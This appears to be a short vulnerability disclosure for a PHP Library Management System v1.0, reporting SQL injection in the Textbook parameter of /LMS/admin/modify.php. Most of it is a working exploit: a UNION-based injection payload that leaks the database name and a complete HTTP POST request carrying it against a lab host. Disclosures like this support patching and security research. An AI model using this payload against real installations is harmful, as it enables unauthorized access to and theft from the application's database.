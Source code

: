 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/modify.php

Vulnerability location: /LMS/admin/modify.php, Textbook

[+] Payload: submit=&Textbook=1'+union+select+1,2,3,database(),5,6,7,8,9,10--+ // Leak place ---> Textbook

```sql
POST /LMS/admin/modify.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

submit=&Textbook=1'+union+select+1,2,3,database(),5,6,7,8,9,10--+
```

![image](https://user-images.githubusercontent.com/54017627/180451552-9b44fcdb-4985-4819-bbc4-e8b93fa19e9b.png)
